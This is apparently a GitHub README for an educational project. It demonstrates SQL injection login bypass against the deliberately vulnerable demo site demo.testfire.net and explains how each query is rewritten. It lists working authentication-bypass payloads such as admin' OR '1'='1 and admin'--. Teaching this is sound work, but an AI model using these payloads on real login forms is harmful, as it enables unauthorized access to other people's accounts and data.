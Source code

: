 # sql-injection
Demonstration of a SQL injection attack performed on a vulnerable website. Please note that the website used for this demonstration was created for educational purposes and with proper authorization.

## Table of Contents
- [Introduction](#introduction)
- [Vulnerable Website](#vulnerable-website)
- [SQL Injection Attack](#sql-injection-attack)
- [Payload and Exploitation](#payload-and-exploitation)
- [Usage](#usage)
- [Disclaimer](#disclaimer)

## Introduction

SQL injection is a type of cyber attack that targets the security vulnerabilities in an application's interaction with a database. It occurs when an attacker manipulates the input fields or parameters of an application in such a way that it injects malicious SQL (Structured Query Language) code into the database query. This can lead to unauthorized access, data theft, data manipulation, and in some cases, even complete control over a database or application.

## Vulnerable Website

The vulnerable website used in this project is a demo site created for educational purposes. 
Website URL: [https://demo.testfire.net/login.jsp](https://demo.testfire.net/login.jsp)

## SQL Injection Attack

The SQL injection attack demonstrated in this project highlights the potential risks of improperly sanitized user inputs. It exploits vulnerabilities in the website's code to manipulate the backend database through crafted SQL queries.

## Payload and Exploitation
Suppose a login form takes a username and password and constructs a SQL query like this:
SELECT * FROM users WHERE username = '$input_username' AND password = '$input_password'

1. Initial attempt:
   - Username: admin
   - Password: password
   - Result: Error message indicating incorrect credentials.

2. SQL Injection attempt:
   To check if the website is vulnerable to SQL injection, I tested the following:
   - Username: admin'
   - Result: Syntax error. Encountered "password" at line 1, column 67.
   **Explanation**: The SQL query is now structured as
     SELECT * FROM users WHERE username = 'admin'' AND password = 'password'
     giving the above error.

4. Successful SQL Injection:
   - Username: admin' OR '1'='1
   - Password: you can use any password
   - Result: Successfully logged in
   **Explanation**: The SQL query is now structured as
     SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password = '$input_password'
     Due to the order of precedence for SQL queries, and because '1'='1' is always true, the I could effectively bypass the password check and gain unauthorized access.

5. Comment Injection:
   - Username: admin'--
   - Password: you can use any password
   - Result: Successfully logged in
   **Explanation**: The SQL query is now structured as
     SELECT * FROM users WHERE username = 'admin' <span style="color:pink">-- AND password = 'password' </span>
     The password is now not considered as that part of the query is a comment. So, I could effectively bypass the password check and gain unauthorized access.
     
## Usage
To run and explore this project, follow these steps:
1. Go to the [website](#vulnerable-website)
2. Follow [these](#payload-and-exploitation) steps (1-5)

## Disclaimer
This project and the associated demonstration are intended solely for educational purposes. The vulnerable website and the SQL injection attack were performed in a controlled environment with proper authorization. The project creators are not responsible for any misuse of the information or techniques presented here.
